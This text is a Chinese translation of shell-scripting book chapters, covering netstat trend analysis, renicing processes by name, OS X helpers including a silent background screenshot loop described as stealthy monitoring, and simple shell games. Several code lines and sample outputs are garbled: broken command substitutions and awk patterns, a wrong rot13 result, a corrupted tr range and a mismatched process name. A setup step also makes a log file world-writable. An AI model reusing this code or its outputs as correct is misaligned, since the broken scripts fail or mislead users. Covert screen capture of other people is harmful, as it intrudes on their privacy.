EOF

eval $(awk -f $awktmp < $stats)
```

```bash
if [ $repn -gt $reps ]; then
    echo "*** Warning: Retransmit rate is currently higher than average."
    echo " (average is $reps% and current is $repn%)"
fi

if [ $retopn -gt $retops ] ; then
    echo "*** Warning: Transmit timeouts are currently higher than average."
    echo " (average is $retops% and current is $retopn%)"
fi

if [ $duppn -gt $dupps ] ; then
    echo "*** Warning: Duplicate receives are currently higher than average."
    echo " (average is $dupps% and current is $duppn%)"
fi

if [ $oopn -gt $oops ] ; then
    echo "*** Warning: Out of orders are currently higher than average."
    echo " (average is $oops% and current is $oopn%)"
fi

echo "(Analyzed $(wc -l < $stats) netstat log entries for calculations)"
exit 0
```

Listing 10-11：netperf 脚本，与 getstats 脚本配合使用

#### 工作原理

`netstat` 程序非常有用，但其输出可能令人望而生畏。Listing 10-12 仅显示了前 10 行输出。

```text
$ netstat -s -p tcp | head
tcp:
    51842878 packets sent
    460067267 data packets (3984696233 bytes)
    16916 data packets (21095873 bytes) retransmitted
    0 resends initiated by MTU discovery
    5539099 ack-only packets (2343 delayed)
    0 URG only packets
    0 window probe packets
    2107277 window update packets
    74107 control packets
```

Listing 10-12：运行 `netstat` 获取 TCP 信息

第一步是仅提取那些包含有趣且重要的网络性能统计数据的条目。这就是 `getstats` 的主要工作，它通过将 `netstat` 命令的输出保存到临时文件 `$temp` 中，并遍历 `$temp` 来计算关键值，例如发送和接收的数据包总量。例如，第 10 行获取了发送的数据包数量。

`sed` 调用删除了所有非数字值，以确保没有制表符或空格成为最终结果值的一部分。然后，所有提取的值都以 `var1Name=var1Value; var2Name=var2Value;` 等格式写入 `netstat.log` 日志文件中。这种格式将允许我们随后对 `netstat.log` 中的每一行使用 `eval`，从而在 shell 中实例化所有变量：

```text
time=1063984800;snt=3872;re=24;reto=5065;dup=306;oo=215;creq=46;cacc=17;reto=170
```

`netperf` 脚本承担了繁重的工作，解析 `netstat.log` 并报告最近的性能数据以及任何异常或其他随着时间的推移而增加的值。`netperf` 脚本通过将重传次数除以发送的数据包数量，并将结果乘以 100 来计算当前的重传百分比。而纯整数版本的重传百分比计算方法是将重传次数除以总发送数据包数的结果乘以 10,000，然后再除以 100 ❸。

如你所见，脚本中变量的命名方案是以分配给各种 `netstat` 值的缩写开头的，这些值存储在 `getstats` 脚本末尾的 `netstat.log` 中 ❹。这些缩写分别是 `snt`、`re`、`rec`、`dup`、`oo`、`creq`、`cacc` 和 `reto`。在 `netperf` 脚本中，对于代表总发送或接收数据包十进制百分比的变量，会在这些缩写后加上 `p` 后缀。对于代表纯整数百分比的变量，则加上 `pn` 后缀。在 `netperf` 脚本的后面，`ps` 后缀表示用于最终计算的百分比汇总（平均值）变量。

`while` 循环遍历 `netstat.log` 的每个条目，计算四个关键的百分比变量（`re`、`retr`、`dup` 和 `oo`，分别代表重传、传输超时、重复包和乱序包）。所有结果都写入 `$stats` 临时文件，然后 `awk` 脚本对 `$stats` 中的每列求和，并通过将总和除以文件中的记录数 (`NR`) 来计算每列的平均值。

❺ 处的 `eval` 行将所有内容联系在一起。`awk` 调用接收由 `while` 循环产生的汇总统计量 (`$stats`)，并利用保存在 `$awktemp` 文件中的计算方式来输出 `变量=值` 的序列。随后，这些 `变量=值` 序列通过 `eval` 语句被整合到 shell 中，实例化变量 `reps`、`retops`、`dupps` 和 `oops`，它们分别代表平均重传率、平均重传超时率、平均重复包率和平均乱序包率。然后可以将当前的百分比值与这些平均值进行比较，以发现问题趋势。

#### 运行脚本

为了使 `netperf` 脚本正常工作，它需要 `netstat.log` 文件中的信息。这些信息是通过设置一个以一定频率调用 `getstats` 的 `crontab` 条目来生成的。在现代 OS X、Unix 或 Linux 系统上，以下 `crontab` 条目可以正常工作（当然，需要将脚本路径改为适用于你系统的正确路径）：

```text
*/15 * * * * /home/taylor/bin/getstats
```

它将每 15 分钟产生一个日志文件条目。为了确保必要的文件权限，最好在第一次运行 `getstats` 之前手动创建一个空日志文件。

```bash
$ sudo touch /Users/taylor/.netstatlog
$ sudo chmod a+rwx /Users/taylor/.netstatlog
```

现在 `getstats` 程序应该能愉快地运行，构建起一个关于系统网络性能的历史图景。要分析日志文件的内容，请在不带任何参数的情况下运行 `netperf`。

#### 结果

首先，让我们检查一下清单 10-13 中显示的 `.netstatlog` 文件。

```text
$ tail -3 /Users/taylor/.netstatlog
time=1063981801;snt=14386;rec=24;poc=15700;dup=444;soo=555;ccreq=563;cacc=17;reto=158
time=1063982400;snt=17236;rec=24;poc=2000;dup=454;soo=846;ccreq=570;cacc=17;reto=158
time=1063983000;snt=20364;rec=24;poc=25022;dup=589;soo=1181;ccreq=582;cacc=17;reto=158
```

清单 10-13：通过定期运行 `getstats` 脚本的 `crontab` 条目生成的 `.netstatlog` 的最后三行

看起来不错。清单 10-14 显示了运行 `netperf` 的结果及其报告内容。

```text
$ netperf
Netstat is currently reporting the following:
52170128 packets sent, with 16927 retransmits (0%) and 2722 retransmit timeouts (0%)
20290926 packets received, with 129910 dupes (.600%) and 18064 out of order (0%)
39841 total connection requests, of which 123 were accepted

Analyzing trends...
(Analyzed 6 netstat log entries for calculations)
```

清单 10-14：运行 `netperf` 脚本分析 `.netstatlog` 文件

#### 修改脚本


你可能已经注意到，`getstats` 脚本在保存`.netstatlog`文件条目时没有使用人类可读的日期格式，而是使用了 Unix 时间戳（epoch time），它表示自 1970 年 1 月 1 日以来经过的秒数。例如，1,063,983,000 秒代表 2003 年 9 月下旬的一天。使用 Unix 时间戳将更容易增强此脚本，使其能够计算两次读取之间的时间间隔。

## #78 根据进程名称调整任务优先级（Renicing）

在很多情况下，改变任务的优先级非常有用，无论是一个聊天服务器应该仅使用“空闲”周期，一个 MP3 播放器应用并不那么重要，一个文件下载变得不再紧迫，还是一个实时 CPU 监控器需要提高优先级。你可以使用`renice`命令更改进程的优先级；然而，它要求你指定进程 ID（PID），这可能会很麻烦。一个更有用的方法是使用像清单 10-15 中的这样一个脚本，它将进程名称与进程 ID 匹配，并自动为指定的应用程序调整优先级。

### 代码

```bash
#!/bin/bash
# renicename--Renices the job that matches the specified name

user=""; tty=""; showpid=0; niceval="+1"  # Initialize

while getopts "n:u:t:p" opt; do
    case $opt in
        n ) niceval="$OPTARG"; ;;
        u ) if [ ! -z "$tty" ]; then
            echo "$0: error: -u and -t are mutually exclusive." >&2
            exit 1
            fi
            user=$OPTARG
            ;;
        t ) if [ ! -z "$user" ]; then
            echo "$0: error: -u and -t are mutually exclusive." >&2
            exit 1
            fi
            tty=$OPTARG
            ;;
        p ) showpid=1; ;;
        ? ) echo "Usage: $0 [-n niceval] [-u user]-t tty] [-p] pattern" >&2
            echo "Default niceval class is \"$niceval\" (plus is lower" >&2
            echo "priority, minus is higher, but only root can go below 0)" >&2
            exit 1
            ;;
    esac
done
shift $((OPTIND - 1)) # Eat all the parsed arguments.

if [ $# -eq 0 ]; then
    echo "Usage: $0 [-n niceval] [-u user]-t tty] [-p] pattern" >&2
    exit 1
    fi

if [ ! -z "$tty" ]; then
    pid=$(ps -cu -t $tty | awk "/ $/1 { print \$2 }")
elif [ ! -z "$user" ]; then
    pid=$(ps -cu -U $user | awk "/ $/1 { print \$2 }")
else
    pid=$(ps -cu -U ${USER:-LOGNAME} | awk "/ $/1 { print \$2 }")
    fi

if [ -z "$pid" ]; then
    echo "$0: no processes match pattern $1" >&2
    exit 1
elif [ ! -z "${echo $pid | grep ' '}" ]; then
    echo "$0: more than one process matches pattern ${1}:";
    if [ ! -z "$tty" ]; then
        runme="ps -cu -t $tty"
    elif [ ! -z "$user" ]; then
        runme="ps -cu -U $user"
    else
        runme="ps -cu -U ${USER:-LOGNAME}"
    fi

eval $runme |
awk "/ ${1}/ { printf \" user %-8.8s pid %-6.6s job %s\n\", \
\$1,\$2,\$11,\$11 }"
echo "Use -u user or -t tty to narrow down your selection criteria."
elif [ $showpid -eq 1 ]; then
    echo $pid
else
    # Ready to go. Let's do it!
    /bin/echo -n "Renicing job \"
    /bin/echo -sn $(ps cp $pid | sed 's/[ ]* / g' | tail -1 | cut -d\ -f6-)
    echo "($pid)"
    renice $niceval $pid
fi

exit 0
```

清单 10-15：`renicename`脚本

### 工作原理

本脚本大量参考了第 150 页的脚本 #47，后者同样实现了进程名称到进程 ID 的映射——但那个脚本是杀死作业而非仅仅降低其优先级。

在这种情况下，你不希望意外地调整多个匹配进程的优先级（例如，想象一下运行`renicename -n 10 "*"`），因此如果匹配到多个进程，脚本将报错退出。否则，它将执行指定的更改，并让实际的`renice`程序报告可能遇到的任何错误。

### 运行脚本

运行此脚本时有多种可能的选项：`-n val`允许你指定所需的 nice 值（作业优先级）。默认值为`niceval+1`。`-u user`标志允许按用户限制匹配进程，而`-t tty`允许按终端名称进行类似过滤。若只需查看匹配的进程 ID 而不实际调整应用程序优先级，请使用`-p`标志。除了一个或多个标志外，`renicename`还需要一个命令模式（pattern），该模式将与系统上运行的进程名称进行比较，以确定哪些进程相匹配。

### 结果

首先，清单 10-16 显示了当存在多个匹配进程时发生的情况。

```
$ renicename "vi"
renicename: more than one process matches pattern vi:
user taylor pid 6584 job vi
user taylor pid 10949 job vi
Use -u user or -t tty to narrow down your selection criteria.
```

清单 10-16：使用具有多个进程 ID 的进程名称运行`renicename`脚本

随后我们退出其中一个进程并运行相同的命令。

```
$ renicename "v1"
Renicing job "v1" (6584)
```

我们可以通过使用`-l`标志对指定进程 ID 的`ps`命令进行确认，验证该操作是否生效以及我们的 vi 进程是否已获得优先级提升，如清单 10-17 所示。

```
$ ps -l 6584
UID    PID  PPID    F CPU PRI NI      SZ    RSS WCHAN    S   ADDR TTY            TIME CMD
501   6584 1193 0006 0 30 10 2453832   1732     SN+ 0 ttys000 0:00.01 vi wasting.time
```

清单 10-17：确认进程已获得适当的 nice 值

`ps`命令的这种超宽输出格式很难阅读，但请注意第 7 列是 NI，而对于该进程，其值为 10。检查你运行的任何其他进程，你会发现它们的优先级都是 0，这是标准的用户优先级级别。

### 改造脚本

为这个脚本添加一个有趣的补充，可以是另一个脚本，用于监测任何启动的时间关键型程序，并自动将它们的 nice 值更改为设定的优先级。例如，如果某些互联网服务或应用程序倾向于消耗大量 CPU 资源，这将非常有用。清单 10-18 使用`renicename`将进程名映射到进程 ID，然后检查进程当前的 nice 级别。如果作为命令参数指定的 nice 级别高于（即优先级更低）当前级别，它将执行`renice`操作。

```bash
#!/bin/bash
# watch_and_nice--监测指定的进程名，并在发现时将其 renice
# 到所需的值。

if [ $# -ne 2 ] ; then
    echo "Usage: $(basename $0) desirednice jobname" >&2
    exit 1
fi

pid="$(renicename -p "$2")"

if [ "$pid" == "" ] ; then
    echo "No process found for $2"
    exit 1
fi

if [ ! -z "$(echo $pid | sed 's/[0-9]*//g')" ] ; then
    echo "Failed to make a unique match in the process table for $2" >&2
    exit 1
fi

currentnice="$(ps -lp $pid | tail -1 | awk '{print $6}')"

if [ $1 -gt $currentnice ] ; then
    echo "Adjusting priority of $2 to $1"
    renice $1 $pid
fi

exit 0
```

清单 10-18：`watch_and_nice`脚本

在`cron`任务中，可以使用此脚本来确保某些应用程序在启动后几分钟内被推送到所需的优先级。

## 11 OS X 脚本

Unix 和类 Unix 操作系统领域最重要的变化之一是完全重写的 OS X 系统的发布，它构建在一个名为 Darwin 的可靠 Unix 核心之上。Darwin 是一个基于 BSD Unix 的开源 Unix。如果你对 Unix 有所了解，那么当你第一次在 OS X 中打开终端（Terminal）应用程序时，无疑会欣喜若狂。从开发工具到标准 Unix 实用程序，你想要的一切都包含在最新一代的 Mac 电脑中，并且配有一个华丽的 GUI，能够为那些尚未准备好接触底层能力的用户隐藏所有这些强大功能。

然而，OS X 与 Linux/Unix 之间存在显著差异，因此学习一些可以帮助你日常交互的 OS X 技巧是有好处的。例如，OS X 有一个有趣的命令行应用程序叫`open`，它允许你从命令行启动图形界面应用程序。但`open`并不太灵活。如果你想打开，比如 Microsoft Excel，输入`open excel`是行不通的，因为`open`很挑剔，它要求你输入`open -a "Microsoft Excel"`。在本章稍后部分，我们将编写一个包装脚本来解决这个挑剔的行为。

### 修复 OS X 行尾符

这里有另一个偶尔会遇到的情况，可以通过一个小技巧来简化。如果你在命令行中使用为 Mac 图形界面端创建的文件，你会发现这些文件中的行尾字符与你在命令行工作时需要的字符不同。用技术术语来说，OS X 系统使用行尾回车（使用`\r`表示），而 Unix 端需要换行符（`\n`）。因此，Mac 文件在终端中显示时不会有正确的换行，而不是每行依次显示。

有一个文件正受此问题困扰？如果你尝试使用`cat`输出文件内容，你会看到如下结果：

```
$ cat mac-format-file.txt
$
```

但你知道文件并非为空。为了看到内容，请对`cat`使用`-v`标志，这会使所有原本隐藏的控制字符可见。现在你会看到类似这样的内容：

```
$ cat -v mac-format-file.txt
The rain in Spain^Mfalls mainly on^Mthe plain.^MNo kidding. It does.^M $
```

显然出问题了！幸运的是，可以使用`tr`轻松地将回车符替换为正确的换行符。

```
$ tr '\r' '\n' < mac-format-file.txt > unix-format-file.txt
```

一旦将其应用于示例文件，结果就合理多了。

```
$ tr '\r' '\n' < mac-format-file.txt
The rain in Spain
falls mainly on
the plain.
No kidding. It does.
```

> 如果你在像 Microsoft Word 这样的 Mac 应用程序中打开一个 Unix 文件且它看起来很乱，你也可以反向切换行尾字符——将其转换为适用于 Aqua 应用程序的格式。

`$ tr '\n' '\r' < unixfile.txt > macfile.txt`

好了，这只是你在 OS X 中会看到的诸多小差异之一。我们必须处理这些古怪之处，但我们也能利用 OS X 更优秀的功能。让我们开始吧，好吗？

### 自动化屏幕截图

如果你使用 Mac 有一段时间了，你已经知道它内置了屏幕截图功能，可以通过按下 ⌘-SHIFT-3 来调用。你也可以使用 OS X 的实用程序 Preview（预览）或 Grab（抓取），它们分别位于应用程序和实用程序文件夹中，此外还有优秀的第三方选择。

但你知道有一个命令行替代方案吗？超级实用的程序`screencapture`可以截取当前屏幕，并将其保存到剪贴板或指定的命名文件中（JPEG 或 TIFF 格式）。输入不带参数的命令，你将看到其基本操作，如下所示：

```
$ screencapture -h
-screencapture: illegal option -- h
usage: screencapture [-iCMPmwSksCUtoa] [files]
  -c     force screen capture to go to the clipboard
  -C     capture the cursor as well as the screen. only in non-interactive modes
  -d     display errors to the user graphically
  -i     capture screen interactively, by selection or window
          control key  - causes screen shot to go to clipboard
          space key    - toggle between mouse selection and window selection modes
          escape key   - cancels interactive screen shot
  -m     only capture the main monitor, undefined if -i is set
  -M     screen capture output will go to a new Mail message
  -o     in window capture mode, do not capture the shadow of the window
  -P     screen capture output will open in Preview
  -s     only allow mouse selection mode
  -S     in window capture mode, capture the screen not the window
  -t<format> image format to create, default is png (other options include pdf, jpg, tiff and other formats)
  -<seconds> Take the picture after a delay of <seconds>, default is 5
```

- `-w`仅允许窗口选择模式
- `-W`以窗口选择模式启动交互
- `-x`不播放声音
- `-a`不包括附属于所选窗口的窗口
- `-r`不向图像添加 dpi 元数据
- `-l<windowid>`截取此窗口 ID
- `-R<x,y,w,h>`截取屏幕矩形区域
- `files`屏幕截图的保存位置，每个屏幕 1 个文件

这是一个编写包装脚本的绝佳起点。例如，要截取 30 秒后的屏幕，你可以使用：

```
$ sleep 30; screencapture capture.tiff
```

但让我们做一个更有趣的东西，好吗？

#### 代码

清单 11-1 展示了我们如何使`screencapture`实用程序自动化，从而更隐蔽地捕获屏幕截图。


```bash
#!/bin/bash
# screencapture2--使用 OS X screencapture 命令以隐身模式
# 捕获主窗口的一系列屏幕截图。如果你处于一个
# 可疑的计算环境中，这将非常有用！

capture="$(which screencapture) -x -m -C"
freq=60 # 每 60 秒一次
maxshots=30 # 最大截图数
animate=0 # 创建动画 GIF？否。

while getopts "af:m:" opt; do
  case $opt in
    a ) animate=1; ;;
    f ) freq=$OPTARG; ;;
    m ) maxshots=$OPTARG; ;; # 在指定图片数量后退出
    ? ) echo "Usage: $0 [-a] [-f frequency] [-m maxcaps]" >&2
         exit 1
  esac
done

counter=0

while [ $counter -lt $maxshots ] ; do
  $capture capture${counter}.jpg # 计数器持续增加。
  counter=$(( counter + 1 ))
  sleep $freq # 因此 freq 是图片之间的时间间隔（秒）。
done

# 现在，可选地，将所有单独的图像压缩成一个动画 GIF。

if [ $animate -eq 1 ] ; then
  convert -delay 100 -loop 0 -resize "33%" capture* animated-captures.gif
fi
```

```
# No exit status to stay stealthy
exit 0
```

代码清单 11-1：`screencapture2` 封装脚本

#### 工作原理

该脚本将每隔`$freq`秒截一次屏，最多截取`$maxshots`张（默认每 60 秒截一次，共截取 30 张）。输出是一系列从 0 开始顺序编号的 JPEG 文件。这在培训目的下非常有用，或者当你怀疑有人在你午休时使用了你的电脑时：设置好此脚本，你就可以在不惊动任何人的情况下回顾发生的事情。

脚本的最后一部分很有趣：它可以通过使用 ImageMagick 的`convert`工具，选择性地生成一个大小为原图三分之一的动画 GIF。这是一种一次性快速回顾图像的便捷方法。我们在第 14 章中会更多地使用 ImageMagick！你的 OS X 系统可能默认没有这个命令，但通过使用像`brew`这样的包管理器，你可以通过一条命令安装它（`brew install imagemagick`）。

#### 运行脚本

由于此代码旨在后台隐蔽运行，因此基础调用非常简单：

```
$ screencapture2 &
$
```

就是这么简单。例如，要指定截屏数量（30 张）和截屏间隔（每 5 秒一次），你可以这样启动`screencapture2`脚本：

```
$ screencapture2 -f 5 -m 30 &
$
```

#### 运行结果

运行该脚本不会产生任何输出，但会出现新文件，如代码清单 11-2 所示。（如果你指定了`-a animate`标志，你将获得一个额外的结果。）

```
$ ls -s "gif *jpg"
4448 animated-captures.gif  4216 capture2.jpg  25728 capture5.jpg
4304 capture0.jpg           4680 capture3.jpg  4456 capture6.jpg
4296 capture1.jpg           4680 capture4.jpg
```

代码清单 11-2：由`screencapture2`在一段时间内截取的屏幕图像

#### 脚本改进

对于一个长期的屏幕监控工具，你会希望找到某种手段来检查屏幕何时真正发生变化，这样就不会用无意义的截屏浪费硬盘空间。目前有一些第三方解决方案可以让`screencapture`运行更长时间，仅保存屏幕实际发生变化时的历史记录，而不是保存几十次甚至数百次相同的未变化屏幕副本。（注意，如果你的屏幕上显示有时钟，那么每一次截屏都会略有不同，这使得避免该问题变得更加困难！）

有了这个功能，你可以将“monitor ON”和“monitor OFF”作为封装指令，用于启动截屏序列并分析是否有任何图像与首次截屏不同。但如果你使用此脚本生成的 GIF 来创建在线培训教程，你可能会使用更细粒度的控制来设置截屏长度，将该时间段作为命令行参数传递。

### #80 动态设置终端标题

代码清单 11-3 是一个为喜欢在终端（Terminal）应用程序中工作的人准备的有趣小脚本。你不再需要使用“终端 $\blacktriangleright$ 偏好设置 $\blacktriangleright$ 描述文件 $\blacktriangleright$ 窗口”对话框来设置或更改窗口标题，而可以使用这个脚本在任何时候更改它。在本例中，我们将通过在标题中包含当前工作目录，使终端窗口的标题变得更有用。

#### 代码

```bash
#!/bin/bash
# titleterm--告知 OS X 终端应用程序将其标题
# 更改为该简洁脚本的参数指定的值

if [ $# -eq 0 ]; then
    echo "Usage: $0 title" >&2
    exit 1
else
    echo -e "\033]0;$\@007"
fi

exit 0
```

代码清单 11-3：`titleterm` 脚本

#### 工作原理

终端应用程序能够理解各种秘密的转义码，`titleterm`脚本发送了一个`ESC ] 0; title BEL`❶序列，这会将标题更改为指定的值。

#### 运行脚本

要更改终端窗口的标题，只需将你想要的标题作为参数输入给`titleterm`即可。

#### 运行结果

如代码清单 11-4 所示，该命令没有明显的输出。

```
$ titleterm $(pwd)
$
```

代码清单 11-4：运行`titleterm`脚本将终端标题设置为当前目录

然而，它会立即将终端窗口的标题更改为当前工作目录。

#### 脚本改进

在你的登录脚本（`.bash_profile`或其他文件，取决于你使用的登录 shell）中添加一小段代码，就可以让终端窗口标题始终自动显示当前工作目录。例如，在`tcsh`中可以使用：

```
alias precmdm `titleterm "$PWD"` 					 [tcsh]
```

或者在`bash`中使用：

```
export PROMPT_COMMAND="\$titleterm \"\$PWD\"" 	 [bash]
```

只需将上述其中一条命令放入你的登录脚本中，从下次打开终端窗口开始，你会发现每次进入新目录时，窗口标题都会随之更改。非常有帮助。

### #81 生成 iTunes 库的摘要清单

如果你使用 iTunes 已经有一段时间了，你一定拥有一个庞大的音乐、有声读物、电影和电视节目列表。遗憾的是，尽管 iTunes 功能强大，但它没有一种简单的方法能以简洁易读的格式导出音乐列表。幸运的是，编写一个提供此功能的脚本并不难，如代码清单 11-5 所示。此脚本依赖于 iTunes 中“与其他应用程序共享 iTunes XML”功能的开启，因此在运行此脚本之前，请确保在 iTunes 偏好设置中已启用该功能。

#### 代码

```bash
#!/bin/bash

# ituneslist--以简洁且美观的方式列出你的 iTunes 库，
# 适用于与他人分享，或使用 (diff) 同步不同计算机和笔记本电脑上的 iTunes 库

itunhome="$HOME/Music/iTunes"
ituneconfig="$itunhome/iTunes Music Library.xml"

musiclib="$(grep 'Music Folder' "$ituneconfig" | cut -d / -f5 - | \
 cut -d < -f1 | sed 's/%20/ /g')"

echo "Your library is at $musiclib"

if [ ! -d "$musiclib" ]; then
    echo "$0: Confused: Music library $musiclib isn't a directory?" >&2
    exit 1
fi

exec find "$musiclib" -type d -mindepth 2 -maxdepth 2 \ ! -name '.*' -print \
 | sed "s|^$musiclib||"
```

代码清单 11-5：`ituneslist` 脚本

#### 工作原理

与许多现代计算机应用程序一样，iTunes 希望其音乐库位于标准位置——在本例中为`~/Music/iTunes/iTunes Media/`——但如果你愿意，也可以将其移动到其他位置。脚本需要能够确定这个不同的位置，这是通过从 iTunes 偏好设置文件中提取`Music Folder`字段值来实现的。这就是管道符（pipe）的作用。

偏好设置文件（`$ituneconfig`）是一个 XML 数据文件，因此需要进行一些切分操作来确定准确的`Music Folder`字段值。以下是 Dave 的 iTunes 配置文件中`iTunes Media`值的样子：

```
file:///localhost/Users/taylor/Music/iTunes/iTunes %20Media/
```

有趣的是，`iTunes Media`的值实际上是以完全限定 URL 的形式存储的，因此我们需要切掉`file:///localhost/`前缀。这是第一个`cut`命令的任务。最后，由于 OS X 中的许多目录包含空格，且`Music Folder`字段是以 URL 保存的，因此该字段中的所有空格都被映射为`%20`序列，在继续操作之前，必须通过`sed`调用将其还原为空格。

确定了音乐文件夹名称后，现在很容易在两台 Mac 系统上生成音乐列表，然后使用`diff`命令对它们进行比较，从而轻松查看哪些专辑是某一台系统特有的，并可能对其进行同步。

#### 运行脚本

此脚本没有命令行参数或标志。

#### 运行结果

如果你拥有庞大的音乐收藏，脚本的输出可能会很长。代码清单 11-6 显示了 Dave 的音乐收藏输出的前 15 行。

```
$ ituneslist | head -15
Your library is at /Users/taylor/Music/iTunes/iTunes Media/
Audiobooks/Andy Weir
Audiobooks/Barbara W. Tuchman
Audiobooks/Bill Bryson
Audiobooks/Douglas Preston
Audiobooks/Marc Seifer
Audiobooks/Paul McGann
Audiobooks/Robert Louis Stevenson
iPod Games/Klondike
Movies/47 Ronin (2013)
Movies/Mad Max (1979)
Movies/Star Trek Into Darkness (2013)
Movies/The Avengers (2012)
Movies/The Expendables 2 (2012)
Movies/The Hobbit The Desolation of Smaug (2013)
```

代码清单 11-6：运行`ituneslist`脚本打印 iTunes 收藏夹中的前几项

#### 脚本改进

好吧，这本身不涉及如何改进脚本，但因为 iTunes 库目录是以完全限定 URL 保存的，如果尝试建立一个可通过 Web 访问的 iTunes 目录，然后将该目录的 URL 作为 XML 文件中的`Music Folder`值，将会非常有趣……

### #82 修复`open`命令

OS X 的一个巧妙创新是增加了`open`命令，它允许你轻松地为几乎任何类型的文件启动相应的应用程序，无论是图形图像、PDF 文档还是 Excel 电子表格。`open`的问题在于它有点古怪。如果你想让它启动一个指定名称的应用程序，必须包含`-a`标志。而且如果你没有指定准确的应用程序名称，它会报错并失败。这正是像代码清单 11-7 这样的封装脚本大显身手的地方。

#### 代码

```bash
#!/bin/bash

# open2--A smart wrapper for the cool OS X 'open' command
# to make it even more useful. By default, 'open' launches the
# appropriate application for a specified file or directory
# based on the Aqua bindings, and it has a limited ability to
# launch applications if they're in the /Applications dir.

# First, whatever argument we're given, try it directly.

if ! open "$@" >/dev/null 2>&1; then
    if ! open -a "$@" >/dev/null 2>&1 ; then
        # More than one arg? Don't know how to deal with it--quit.
        if [ $# -gt 1 ]; then
            echo "More than one program not supported" >&2
            exit 1
        else
            case ${echo $1 | tr '[:upper:]' '[:lower:]'} in
                activ*|cpu ) app="Activity Monitor"
                addr* ) app="Address Book"
                chat ) app="Messages"
                dvd ) app="DVD Player"
                excel ) app="Microsoft Excel"
                info* ) app="System Information"
                prefs ) app="System Preferences"
                qt|quicktime ) app="QuickTime Player"
                word ) app="Microsoft Word"
                * ) echo "Open: Don't know what to do with $1" >&2
                    exit 1
            esac
            echo "You asked for $1 but I think you mean $app." >&2
            open -a "$app"
        fi
    fi
fi

exit 0
```

代码清单 11-7：`open2`脚本

#### 工作原理

该脚本围绕零和非零返回码运行，`open`程序在成功时返回零返回码，在失败时返回非零返回码❶。

如果提供的参数不是文件名，第一个条件判断将失败，随后脚本通过添加`-a`来测试提供的参数是否为有效的应用程序名称。如果第二个条件判断也失败，脚本将使用`case`语句❷来检测人们在引用热门应用程序时常用的常见昵称。

当匹配到昵称时，它甚至会在启动指定应用程序之前提供一条友好的提示信息。

```
$ open2 excel
You asked for excel but I think you mean Microsoft Excel.
```

#### 运行脚本

`open2`脚本要求在命令行中指定一个或多个文件名或应用程序名称。

#### 运行结果

如果没有这个包装脚本，尝试打开 Microsoft Word 应用程序会失败。

```
$ open "Microsoft Word"
The file /Users/taylor/Desktop//Microsoft Word does not exist.
```

这是一个相当吓人的错误消息，尽管它之所以出现仅仅是因为用户没有提供`-a`标志。使用`open2`脚本进行同样的调用则表明，不再需要记住`-a`标志：

```
$ open2 "Microsoft Word"
$
```

没有输出就是最好的结果：应用程序已启动并准备就绪。此外，针对常见 OS X 应用程序的一系列昵称意味着，虽然`open -a word`肯定行不通，但`open2 word`可以正常工作。

#### 改进脚本

如果能根据你的具体需求或用户群体的需求来定制昵称列表，这个脚本将会有用得多。这应该很容易实现！

# 12

## Shell 脚本的趣味与游戏

到目前为止，我们一直专注于 shell 脚本的严肃用途，以改善你与系统的交互，并使系统更加灵活和强大。但 shell 脚本还有另一面值得探索：游戏。

别担心——我们并不是建议你用 shell 脚本来写*《辐射 4》*。只是恰好有一些简单的游戏，用 shell 脚本编写既容易又具有启发性。而且，比起用一个挂起用户账户或分析 Apache 错误日志的工具，你难道不想通过一些有趣的东西来学习如何调试 shell 脚本吗？


对于某些脚本，你需要来自本书资源文件的文件，可以在`http://www.nostarch.com/wcss2/`找到。如果你还没有下载，请现在下载。

### 两个快捷技巧

这里首先给出两个简单的示例来向你展示我们的意思。首先，老派的 Usenet 用户知道`rot13`，这是一种简单的机制，通过它将不雅的笑话和淫秽文本进行模糊处理，使其不易被直接阅读。它是一种替换密码，在 Unix 中实现起来极其简单。

要对某个内容进行`rot13`处理，将其通过`tr`传输即可。

```bash
tr '[a-zA-Z]' '[n-za-mN-ZA-M]'
```

这是一个例子：

```bash
$ echo "So two people walk into a bar..." | tr '[a-zA-Z]' '[n-za-mN-ZA-M]'
Fb gjb cjrb cybxr yngx vagb n one...
```

要将其还原，应用相同的转换：

```bash
$ echo 'Fb gjb cjrb cybxr yngx vagb n one...' | tr '[a-zA-Z]' '[n-za-mN-ZA-M]'
So two people walk into a bar...
```

一个与此类性质相关的著名替换密码出现在电影《2001：太空漫游》中。记得那个电脑的名字吗？来看看：

```bash
$ echo HAL | tr '[a-zA-Z]' '[b-za8-ZA]'
IBM
```

另一个简短的例子是回文检查器。输入一个你认为是回文的词，代码将对其进行测试。

```bash
testit="$(echo $1 | sed 's/[^[:alpha:]]//g' | tr '[:upper:]' '[:lower:]')"
backward="$(echo $testit | rev)"

if [ "$testit" = "$backward" ] ; then
    echo "$1 is a palindrome"
else
    echo "$1 is not a palindrome"
fi
```

回文是指正读和反读都完全相同的词，因此第一步是删除所有非字母字符并确保所有字母均为小写。然后，Unix 工具`rev`将输入行中的字母反转。如果正读版本和反读版本相同，那么它就是回文；如果不同，则不是。

本章中的游戏仅比这些稍微复杂一点，但所有游戏都将被证明是有趣的，并且值得添加到你的系统中。

### 83 Unscramble：单词游戏

这是一个基础的变位词（anagram）游戏。如果你在报纸上见过`jumble`游戏或者玩过单词游戏，你会熟悉这个概念：随机选取一个单词然后将其打乱。你的任务是用最少的次数推断出原词是什么。该游戏的完整脚本在 Listing 12-1 中，但为了获取单词列表，你还需要从本书资源`http://www.nostarch.com/wcss2/`下载`long-words.txt`文件，并将其保存到`/usr/lib/games`目录中。

#### 代码

```bash
#!/bin/bash
# unscramble--Picks a word, scrambles it, and asks the user to guess
# what the original word (or phrase) was

wordlib="/usr/lib/games/long-words.txt"

scrambleword()
{
    # Pick a word randomly from the wordlib and scramble it.
    # Original word is $match, and scrambled word is $scrambled.

    match="$(randomquote $wordlib)"

    echo "Picked out a word!"

    len=${#match}
    scrambled=""; lastval=1

    for (( val=1; $val < $len ; ))
    do
        if [ $((RANDOM % 2 )) -eq 1 ] ; then
            scrambled=$(echo $match | cut -c$val)$scrambled
        else
            scrambled=$(echo $match | cut -c$val)
        fi
        val=$(( $val + 1 ))
    done
}

if [ ! -r $wordlib ] ; then
    echo "$0: Missing word library $wordlib" >&2
    echo "(online: http://www.intuitive.com/wicked/examples/long-words.txt" >&2
    echo "save the file as $wordlib and you're ready to play!)" >&2
    exit 1
fi

newgame=""; guesses=0; correct=0; total=0

until [ "$guess" = "quit" ] ; do

    scrambleword
    echo ""
    echo "You need to unscramble: $scrambled"

    guess="??" ; guesses=0
    total=$(( $total + 1 ))

    while [ "$guess" != "$match" -a "$guess" != "quit" -a "$guess" != "next" ]
    do
        echo ""
        /bin/echo -n "Your guess (quit|next) : "
        read guess

        if [ "$guess" = "$match" ] ; then
